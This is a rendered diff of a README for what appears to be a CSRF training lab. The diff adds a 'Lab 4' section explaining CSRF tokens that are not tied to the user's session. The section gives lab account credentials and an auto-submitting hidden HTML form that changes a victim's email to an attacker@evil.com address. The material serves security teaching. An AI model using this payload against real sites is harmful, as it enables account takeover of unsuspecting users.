

Before and after one commit to the0x-pwn/lab-CSRF, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -213,3 +213,76 @@ After completing all labs, you will be able to:
 
 ---
 
+
+### 🔬 Lab 4
+
+<div align="center">
+<img src="img/lab-4.png" alt="CSRF Lab 4 — Screenshot" width="85%"/>
+</div>
+
+<br/>
+
+| | |
+|--|--|
+| 📁 **Folder** | `lab-4` |
+| 🎯 **Focus** | CSRF where token is not tied to user session |
+| ✅ **Status** | Available |
+| 🔑 **Victim Account** | `victim@lab.com` / `csrf` |
+| 🔑 **Attacker Account** | `attacker@lab.com` / `attacker` |
+
+---
+
+#### 🔍 How the Vulnerability Works
+
+Most CSRF protections rely on a token — a random value embedded in the form that the server checks before processing the request. The assumption is: *only the legitimate user can produce a valid token because it's tied to their session.*
+
+But what if the server **generates valid tokens independently of any session**?
+
+That's exactly what this lab demonstrates. The application:
+1. Issues CSRF tokens that are **valid globally** — not bound to the session that requested them
+2. Never verifies that the token presented matches the session making the request
+3. Only checks: *"Is this a valid token?"* — not: *"Does this token belong to this user?"*
+
+This means an attacker can:
+- Log in with their **own account**
+- Intercept or extract a **valid CSRF token** from their own session
+- Embed that token into a malicious page
+- Trick the **victim** into loading that page
+- The victim's browser submits the request with **their session cookies + the attacker's valid token**
+- The server accepts it ✅
+
+---
+
+#### 🎯 Attack Objective
+
+Change the **victim's email address** by forging a request that includes:
+- The victim's authenticated session (automatically sent by the browser via cookies)
+- A valid CSRF token stolen from the **attacker's own session**
+
+---
+
+#### 🧪 Exploit Template
+
+```html
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8">
+  <title>CSRF PoC — Lab 4</title>
+</head>
+<body>
+  <form id="csrfForm"
+        action="http://TARGET/change-email"
+        method="POST"
+        style="display:none;">
+    <input type="hidden" name="email" value="attacker@evil.com">
+    <!-- Token stolen from attacker's own valid session -->
+    <input type="hidden" name="csrf_token" value="VALID_TOKEN_FROM_ATTACKER_SESSION">
+  </form>
+  <script>
+    document.getElementById('csrfForm').submit();
+  </script>
+</body>
+</html>
+```
+
````
Also changed, not shown: other parts of README.md (+33 -0 lines).
